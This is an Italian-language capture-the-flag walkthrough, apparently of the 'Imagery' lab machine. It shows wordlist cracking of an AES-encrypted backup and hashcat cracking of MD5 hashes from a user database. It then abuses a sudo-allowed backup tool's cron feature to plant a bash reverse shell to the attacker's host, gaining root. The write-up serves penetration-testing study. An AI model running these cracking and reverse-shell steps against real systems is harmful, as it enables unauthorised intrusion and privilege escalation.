Si utilizza [https://github.com/orbant12/pyAesCrypt-Cracker-Tool](https://github.com/orbant12/pyAesCrypt-Cracker-Tool) per il cracking del file protetto.

```bash

(.venv) $ python3 crack_py_aes.py web_20250806_120723.zip.aes -w /usr/share/wordlists/rockyou.txt -o cracked.zip
============================================================
AES-Crypt Wordlist Cracker
============================================================
[+] Target: web_20250806_120723.zip.aes
[+] Wordlist: /usr/share/wordlists/rockyou.txt
[+] Output: cracked.zip
------------------------------------------------------------
[   600]   32.7 pwd/s
============================================================
[+] SUCCESS
============================================================
[+] Password: bestfriends
[+] Attempts: 670
[+] Time: 20.59s
[+] Rate: 32.5 pwd/s
[+] Decrypted file saved: cracked.zip
============================================================

```

```bash

$ file cracked.zip                                                                                                                   
cracked.zip: Zip archive data, at least v2.0 to extract, compression method=deflate 

$ unzip cracked.zip

$ tree -L1 web
web
├── api_admin.py
├── api_auth.py
├── api_edit.py
├── api_manage.py
├── api_misc.py
├── api_upload.py
├── app.py
├── config.py
├── db.json
├── env
├── __pycache__
├── system_logs
├── templates
└── utils.py

5 directories, 10 files

```

Si ispeziona il file **db.json**.

```text

"users": [
        {
            "username": "admin@imagery.htb",
            "password": "5d9c1d507a3f76af1e5c97a3ad1eaa31",
            "displayId": "f8p10uw0",
            "isTestuser": false,
            "isAdmin": true,
            "failed_login_attempts": 0,
            "locked_until": null
        },
        {
            "username": "testuser@imagery.htb",
            "password": "2c65c8d7bfbca32a3ed42596192384f6",
            "displayId": "8utz23o5",
            "isTestuser": true,
            "isAdmin": false,
            "failed_login_attempts": 0,
            "locked_until": null
        },
        {
            "username": "mark@imagery.htb",
            "password": "01c3d2e5bdaf6134cec0a367cf53e535",
            "displayId": "868facaf",
            "isAdmin": false,
            "failed_login_attempts": 0,
            "locked_until": null,
            "isTestuser": false
        },
        {
            "username": "web@imagery.htb",
            "password": "84e3c804cf1fa14306f26f9f3da177e0",
            "displayId": "7be291d4",
            "isAdmin": true,
            "failed_login_attempts": 0,
            "locked_until": null,
            "isTestuser": false
        }
    ],

```

Sono presenti delle nuove credenziali per **mark** e **web**.

```bash

$ hashcat -a 0 -m 0 pass2.md5 /usr/share/wordlists/rockyou.txt.gz --show
01c3d2e5bdaf6134cec0a367cf53e535:supersmash

```

Si ottengono le credenziali **mark:supersmash**.

## Shell as mark

```bash

web@Imagery:~$ su -l mark
Password: 

```

Funziona!

Si accede al file **user.txt**.

```bash

mark@Imagery:~$ cat user.txt 
4c324308a436141c002c64c4c4d6b174

```

## Privilege Escalation

```bash

mark@Imagery:~$ sudo -l
Matching Defaults entries for mark on Imagery:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User mark may run the following commands on Imagery:
    (ALL) NOPASSWD: /usr/local/bin/charcol

```

Con i permessi **sudo** si puo' eseguire **/usr/local/bin/charcol**.

```bash

mark@Imagery:~$ sudo /usr/local/bin/charcol help
usage: charcol.py [--quiet] [-R] {shell,help} ...

Charcol: A CLI tool to create encrypted backup zip files.

positional arguments:
  {shell,help}          Available commands
    shell               Enter an interactive Charcol shell.
    help                Show help message for Charcol or a specific command.

options:
  --quiet               Suppress all informational output, showing only
                        warnings and errors.
  -R, --reset-password-to-default
                        Reset application password to default (requires system
                        password verification).

```

## Charcol Shell

Si effettua il **reset** della password.

```bash

mark@Imagery:~$ sudo /usr/local/bin/charcol -R 

Attempting to reset Charcol application password to default.
[2025-09-29 23:47:08] [INFO] System password verification required for this operation.
Enter system password for user 'mark' to confirm: 

[2025-09-29 23:47:13] [INFO] System password verified successfully.
Removed existing config file: /root/.charcol/.charcol_config
Charcol application password has been reset to default (no password mode).
Please restart the application for changes to take effect.

```

Si lancia la shell di **charcol** e si sceglie l'opzione di **no password**.

```bash

mark@Imagery:~$ sudo /usr/local/bin/charcol shell

First time setup: Set your Charcol application password.
Enter '1' to set a new password, or press Enter to use 'no password' mode:
Are you sure you want to use 'no password' mode? (yes/no): yes
[2025-09-29 23:48:15] [INFO] Default application password choice saved to /root/.charcol/.charcol_config  
Using 'no password' mode. This choice has been remembered.
Please restart the application for changes to take effect.

```

Si lancia nuovamente la shell.

```bash

mark@Imagery:~$ sudo /usr/local/bin/charcol shell

  ░██████  ░██                                                  ░██ 
 ░██   ░░██ ░██                                                  ░██ 
░██        ░████████   ░██████   ░██░████  ░███████   ░███████  ░██ 
░██        ░██    ░██       ░██  ░███     ░██    ░██ ░██    ░██ ░██ 
░██        ░██    ░██  ░███████  ░██      ░██        ░██    ░██ ░██ 
 ░██   ░██ ░██    ░██ ░██   ░██  ░██      ░██    ░██ ░██    ░██ ░██ 
  ░██████  ░██    ░██  ░█████░██ ░██       ░███████   ░███████  ░██ 
                                                                    
                                                                    
                                                                    
Charcol The Backup Suit - Development edition 1.0.0

[2025-09-29 23:49:33] [INFO] Entering Charcol interactive shell. Type 'help' for commands, 'exit' to quit.
charcol> 

```

## Exploit the Charcol's Cron Jobs

Leggendo l'**help** del tool si nota che il tool permette di definire dei **jobs**.

```text

  Automated Jobs (Cron):
    auto add --schedule "<cron_schedule>" --command "<shell_command>" --name "<job_name>" [--log-output <log_file>]
      Purpose: Add a new automated cron job managed by Charcol.
      Verification:
        - If '--app-password' is set (status 1): Requires Charcol application password (via global --app-password flag).
        - If 'no password' mode is set (status 2): Requires system password verification (in interactive shell).
      Security Warning: Charcol does NOT validate the safety of the --command. Use absolute paths.
      Examples:
        - Status 1 (encrypted app password), cron:
          CHARCOL_NON_INTERACTIVE=true charcol --app-password <app_password> auto add \
          --schedule "0 2 * * *" --command "charcol backup -i /home/user/docs -p <file_password>" \
          --name "Daily Docs Backup" --log-output <log_file_path>
        - Status 2 (no app password), cron, unencrypted backup:
          CHARCOL_NON_INTERACTIVE=true charcol auto add \
          --schedule "0 2 * * *" --command "charcol backup -i /home/user/docs" \
          --name "Daily Docs Backup" --log-output <log_file_path>
        - Status 2 (no app password), interactive:
          auto add --schedule "0 2 * * *" --command "charcol backup -i /home/user/docs" \
          --name "Daily Docs Backup" --log-output <log_file_path>
          (will prompt for system password)

    auto list
      Purpose: List all automated jobs managed by Charcol.
      Example:
        auto list

    auto edit <job_id> [--schedule "<new_schedule>"] [--command "<new_command>"] [--name "<new_name>"] [--log-output <new_log_file>]
      Purpose: Modify an existing Charcol-managed automated job.
      Verification: Same as 'auto add'.
      Example:
        auto edit <job_id> --schedule "30 4 * * *" --name "Updated Backup Job"

    auto delete <job_id>
      Purpose: Remove an automated job managed by Charcol.
      Verification: Same as 'auto add'.
      Example:
        auto delete <job_id>

```

L'idea e' quella di sfruttare i privilegi **sudo** che ha **charcol** per lanciare una **reverse shell** con i privilegi di **root**.

Si pianifica il job basandosi sull'orario della macchina vittima.

```bash

mark@Imagery:~$ timedatectl 
               Local time: Tue 2025-09-30 00:05:49 UTC
           Universal time: Tue 2025-09-30 00:05:49 UTC
                 RTC time: Tue 2025-09-30 00:05:47
                Time zone: Etc/UTC (UTC, +0000)
System clock synchronized: no
              NTP service: active
          RTC in local TZ: no

```

Di seguito il payload per programmare un job per le ore 00:10 che eseguira' una reverse shell.

```text

auto add --schedule "10 0 * * *" --command "/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.x/9001 0>&1'" --name "exploit"

```

Si lancia un listener sulla porta 9001 sulla macchina Kali e si definisce il job in **charcol**.

```bash

mark@Imagery:~$ sudo /usr/local/bin/charcol shell

  ░██████  ░██                                                  ░██ 
 ░██   ░░██ ░██                                                  ░██ 
░██        ░████████   ░██████   ░██░████  ░███████   ░███████  ░██ 
░██        ░██    ░██       ░██  ░███     ░██    ░██ ░██    ░██ ░██ 
░██        ░██    ░██  ░███████  ░██      ░██        ░██    ░██ ░██ 
 ░██   ░██ ░██    ░██ ░██   ░██  ░██      ░██    ░██ ░██    ░██ ░██ 
  ░██████  ░██    ░██  ░█████░██ ░██       ░███████   ░███████  ░██ 
                                                                     
                                                                     
                                                                     
Charcol The Backup Suit - Development edition 1.0.0

[2025-09-30 00:09:12] [INFO] Entering Charcol interactive shell. Type 'help' for commands, 'exit' to quit.
charcol> auto add --schedule "10 0 * * *" --command "/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.x/9001 0>&1'" --name "exploit"
[2025-09-30 00:09:15] [INFO] System password verification required for this operation.
Enter system password for user 'mark' to confirm: 

[2025-09-30 00:09:19] [INFO] System password verified successfully.
[2025-09-30 00:09:19] [INFO] Auto job 'exploit' (ID: 4892251b-6f7a-4d01-bfd8-fe525d397b76) added successfully. The job will run according to schedule.
[2025-09-30 00:09:19] [INFO] Cron line added: 10 0 * * * CHARCOL_NON_INTERACTIVE=true /bin/bash -c 'bash -i >& /dev/tcp/10.10.16.x/9001 0>&1'

```

Si attende l'esecuzione del job.

## Shell as Root

```bash

$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.16.x] from (UNKNOWN) [10.x.x.x] 58132
bash: cannot set terminal process group (134830): Inappropriate ioctl for device
bash: no job control in this shell
root@Imagery:~# 

```

Funziona!

Si ottiene il file **root.txt**.

```bash

root@Imagery:~# cat root.txt
cat root.txt
d9b623828857fd2ebe5fb94ce35d492f

```

---
